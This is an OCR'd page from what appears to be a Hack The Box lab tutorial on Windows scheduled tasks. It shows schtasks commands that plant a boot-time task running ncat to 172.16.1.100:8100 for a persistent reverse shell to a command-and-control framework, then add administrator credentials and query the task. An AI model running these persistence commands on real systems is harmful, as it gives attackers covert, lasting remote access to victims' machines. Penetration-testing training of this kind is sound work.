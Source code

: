 ```
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

> A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.

* Change the Properties of a Scheduled Task: Change Syntax

| Action | Parameter | Description
| ----- | ----- | -----
| Change | | Allows for modifying existing scheduled tasks.
| | /tn | Designates the task to change
| | /tr | Modifies the program or action that the task runs.
| | /ENABLE | Change the state of the task to Enabled.
| | /DISABLE | Change the state of the task to Disabled.

Ok, now let us say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use.
```
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```

```
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```
